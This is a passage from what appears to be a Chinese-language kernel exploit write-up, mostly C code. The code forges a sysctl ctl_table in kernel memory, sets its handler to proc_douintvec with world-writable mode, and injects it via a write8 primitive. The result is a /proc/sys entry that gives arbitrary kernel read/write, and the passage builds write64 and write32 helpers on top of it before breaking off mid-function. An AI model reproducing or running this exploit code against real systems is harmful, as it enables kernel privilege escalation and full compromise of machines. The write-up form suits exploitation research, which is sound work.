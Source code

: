 ```
*(uint64_t *)(tbl_header_uaddr + 0x40) = node_kaddr;          // node
*(uint64_t *)(tbl_header_uaddr + 0x48) = 0;                // inodes.first

/* Now setup ctl_table */
uint64_t proc_douintvec = kernel_base + PROC_DOUINTVEC_OFFSET;
*(uint64_t *)(ctl_table_uaddr) = procname_kaddr;           // procname
*(uint64_t *)(ctl_table_uaddr + 8) = kernel_base;          // data == what to read/write
*(uint32_t *)(ctl_table_uaddr + 16) = 0x8;                 // max size
*(uint64_t *)(ctl_table_uaddr + 0x20) = proc_douintvec;       // proc_handler
*(uint32_t *)(ctl_table_uaddr + 20) = 0666;             // mode = rw-rw-rw-

/*
 * Compute and write the node name. We use a random name starting with aaa
 * for two reasons:
 *
 *  - Must be the first node in the tree alphabetically given where we insert it (hence aaa...)
 *
 *  - If we already run, there's a cached dentry for each name we used earlier which has dangling 
 *    pointers but is only reachable through path lookup. If we'd reuse the name, we'd crash using 
 *    this dangling pointer at open time.
 *
 * It's easier to have a unique enough name instead of figuring out how to clear the cache,
 * which would be the cleaner solution here.
 */

int fd = open("/dev/urandom", O_RDONLY);
uint32_t rnd;
read(fd, &amp;rnd, sizeof(rnd));

sprintf(procname_uaddr, "aaa_%x", rnd);
sprintf(pathname, "/proc/sys/%s", procname_uaddr);

/* And finally use a write8 to inject this new sysctl node */
struct exp_node *write8_sysctl = node_new("write8_sysctl");
node_write8(write8_sysctl, kaddr, prev_node + 16);
```

简单来说，这是通过在/proc/sys/aaa_[random]中创建一个具有读/写权限的文件，并使用proc_douintvec来处理读写过程。该函数将数据字段作为要读取或写入的指针，并允许最多以无符号整数来读取或写入max_size个字节。<br>
这样一来，我们就可以设置写入原语，如下所示：

```
void write64(uint64_t addr, uint64_t value) {
   *(uint64_t *)(ctl_table_uaddr + 8) = addr;          // data == what to read/write
   *(uint32_t *)(ctl_table_uaddr + 16) = 0x8;

   char buf[100];
   int fd = open(pathname, O_WRONLY);
   if (fd &lt; 0) {
      printf("[!] Failed to open. Errno: %dn", errno);
   }

   sprintf(buf, "%u %un", (uint32_t)value, (uint32_t)(value &gt;&gt; 32));
   int ret = write(fd, buf, strlen(buf));
   if (ret &lt; 0)
      printf("[!] Failed to write, errno: %dn", errno);
   close(fd); 
}

void write32(uint64_t addr, uint32_t value) {
   *(uint64_t *)(ctl_table_uaddr + 8) = addr;          // data == what to read/write
   *(uint32_t *)(ctl_table_uaddr + 16) = 4;

   char buf[100];
```